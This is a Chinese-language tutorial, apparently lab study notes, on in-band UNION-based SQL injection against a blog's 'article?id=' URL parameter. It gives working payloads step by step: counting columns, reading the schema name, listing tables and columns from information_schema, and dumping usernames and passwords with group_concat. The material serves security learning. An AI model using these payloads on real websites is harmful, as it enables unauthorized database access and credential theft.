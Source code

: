 ## In-Band SQLI

### 带回显的SQLI

这种类型的SQLI可以在url中进行，像一些blog，其页面中会有作者、作者id、文章内容等页面内容，这就会根据url的请求而带有回显，从而可以看得到查询结果以及判断sql语法是否有误

```
像url中的'article？id=1'实际上相当于’select * from article where id =1 limit 1;'

这时候id=1会返回正确的结果，但我们需要一个不正确的结果，并通过改写sql语句，使其返回正确的结果
便可以在url中修改为：

'article?id=0 union select 1 ;--'
这样就相当于
'select *from article where id = 0 union select 1;--limit 1;'

在sql语法中--表示后面的内容为注释，不会执行
当然一般这会返回错误结果，但我们就是得根据错误的结果来判断表有多少列
得到错误结果后，接着加上个2

'article?id=0 union select 1,2 ;--'
相当于
'select * from article where id = 0 union select 1,2;-- limit 1'
```

可能会再一次得到错误结果，这说明表不止2列，就接着往下加数字，直到不报错为止
```
'article?id=0 union select 1,2,3 ;--'
相当于
'select * from article where id = 0 union select 1,2,3;-- limit 1'
```

假设表只有3列，那么这时就不会返回错误了,会显示正常的内容
这就表明当前页面调用了数据库中的三列内容
这时我们把第三列的地方换位database()
```
'article?id =0 union select 1,2,database();--'
等于
'select * from article where id =0 union select 1,2,database();-- limit 1'
```

这时就可以在页面中调用第三列内容的地方看到该schema的名字，例如’sqli_one‘
接着把url改为：
```
’article?id =0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'sqli_one';--
```

方法 group_concat（） 从多个返回的行中获取指定的列（在我们的例子中为 table_name），并将其放入一个以逗号分隔的字符串中。
这样就可以得到该schema下所有table的名字，例如有‘article'和'users_staff'，那么’users_staff'就是我们想要的table
接着改为：
```
articl？id =0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users_staff';--
```

便可以得到users_staff下的所有column名字了，例如有‘username’、‘password’
接着改为:
```
article?id=0 union select 1,2,group_concat(username,':',password separator '<br>') from users_staff;--
```

我们使用 group_concat 方法将所有行返回到一个字符串中，并使其更易于阅读。我们还添加了 ，'：' 以将用户名和密码分开。我们没有用逗号分隔，而是选择了 HTML <br> 标签，该标签强制每个结果位于单独的行上，以便于阅读。
这样便得到了所有的用户名和其密码






